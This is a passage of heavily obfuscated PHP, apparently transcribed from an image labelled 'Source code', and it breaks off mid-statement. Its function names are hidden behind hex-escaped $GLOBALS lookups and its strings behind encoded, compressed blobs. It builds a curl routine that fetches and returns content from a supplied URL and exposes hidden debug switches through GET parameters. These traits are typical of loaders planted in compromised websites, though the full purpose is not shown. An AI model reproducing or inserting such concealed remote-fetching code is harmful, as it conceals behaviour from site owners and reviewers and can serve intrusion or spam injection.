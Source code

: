 $OO0_00O_O_{35}.$OO0_00O_O_{12}.$OO0_00O_O_{0};$O0_O0__OO0=$OO0_00O_O_{38}.$OO0_00O_O_{30}.$OO0_00O_O_{35}.$OO0_00O_O_{38};$O0O__O0O0_=$OO0_00O_O_{26}.$OO0_00O_O_{6}.$OO0_00O_O_{10}.$OO0_00O_O_{30};$O_0_OOO00_=$OO0_00O_O_{5}.$OO0_00O_O_{26}.$OO0_00O_O_{7};$OO0O0_0__O=$OO0_00O_O_{30}.$OO0_00O_O_{0}.$OO0_00O_O_{26};if(!function_exists('str_ireplace')){function str_ireplace($from,$to,$string){return trim(preg_replace("/".addcslashes($from,"?:\\/*^$")."/si",$to,$string));}};$O_0_O0_OO0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x30\x4f\x5f\x4f\x4f\x5f\x5f"]('$O0O__OO00_,$O_00O_O_0O=0,$OOO0_0_0_O=1,$O0__OO0O0_=NULL,$O_O_O_O000=array()','if(!${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x4f\x4f\x5f\x5f\x30\x4f\x5f"]("/^http\\:\\/\\//si",$O0O__OO00_)){if(isset(${"\x5f\x47\x45\x54"}["\x75\x72\x6c\x65\x72\x72"])){$O__O0_O0O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'iy4tyhTkktKsovilXIzCtLzMlMUQCKWKnlJRUtPXWAMA\');$O__O0_O0O0.=$O0O__OO00_;echo $O__O0_O0O0;unset($O__O0_O0O0);exit();}return \'\';}$O_00_OO_0O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'Sy4tyhTonPzMss0U4GsYpTS/ILoOzUitTkmrTi/OTs/ILUvJoCBLO4pCg1MTcexE8tiU/OyUzNK6mB8YBtPSJakA\');$OOO_O_00_0=$OO00O___O0=\'\';foreach(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x30\x4f\x4f\x5f\x30\x5f"](\'|\',$O_00_OO_0O) as $c){$O00O___O0O=1;if($O_00O_O_0O&&${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($c,0,1)==\'c\'){continue;}foreach(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x30\x4f\x4f\x5f\x30\x5f"](\'+\',$c) as $d){if(!${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x4f\x5f\x4f\x4f\x30\x5f\x5f"]($d)){$O00O___O0O=0;}}unset($d);if($O00O___O0O){$OOO_O_00_0=$c;break;}}unset($O_00_OO_0O,$c);if($OOO_O_00_0==\'\'){return 0;}if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($OOO_O_00_0,0,1)==\'c\'){$O0O_00_O_O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x4f\x30\x30\x4f\x4f\x5f\x5f"]();${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x30\x4f\x5f\x30\x5f\x5f\x4f"]($O0O_00_O_O,CURLOPT_URL,$O0O__OO00_);${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x30\x4f\x5f\x30\x5f\x5f\x4f"]($O0O_00_O_O,CURLOPT_USERAGENT,\'WHR\');${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x30\x4f\x5f\x30\x5f\x5f\x4f"]($O0O_00_O_O,CURLOPT_RETURNTRANSFER,1);${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x30\x4f\x5f\x30\x5f\x5f\x4f"]($O0O_00_O_O,CURLOPT_TIMEOUT,100);if($OOO0_0_0_O==2){${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x30\x4f\x5f\x30\x5f\x5f\x4f"]($O0O_00_O_O,CURLOPT_POST,1);if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x4f\x4f\x30\x4f\x30\x5f\x30"]($O0__OO0O0_)){${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x30\x4f\x5f\x30\x5f\x5f\x4f"]($O0O_00_O_O,CURLOPT_POSTFIELDS,${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x30\x30\x30\x4f\x4f\x5f\x4f\x5f"]($O0__OO0O0_));}}$O0OOO0_0__=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x5f\x4f\x30\x5f\x4f\x30\x5f"]($O0O_00_O_O);${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x4f\x30\x30\x5f\x30\x5f\x4f"]($O0O_00_O_O);if(!$O0OOO0_0__){if(isset(${"\x5f\x47\x45\x54"}["\x63\x75\x72\x6c\x65\x72\x72"])){$O__O0_O0O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'i04uLhTcpRSC0qyi+KVctLKi6tPwBgA=\');$O__O0_O0O0.=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x5f\x4f\x4f\x5f\x30\x30\x30"]($O0O_00_O_O);echo $O__O0_O0O0;unset($O__O0_O0O0);exit();}return 0;}else{$O0OOO0_0__=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x5f\x4f\x30\x30\x4f\x4f\x5f"](${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x5f\x4f\x30\x30\x4f\x4f\x5f"]($O0OOO0_0__,"\\xEF\\xBB\\xBF"));return $O0OOO0_0__;}}$O00O_0OO__=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x5f\x4f\x4f\x5f\x30\x5f\x30\x30"]($O0O__OO00_);isset($O00O_0OO__["\x68\x6f\x73\x74"])||$O00O_0OO__["\x68\x6f\x73\x74"]=\'\';isset($O00O_0OO__["\x70\x61\x74\x68"])||$O00O_0OO__["\x70\x61\x74\x68"]=\'\';isset($O00O_0OO__["\x71\x75\x65\x72\x79"])||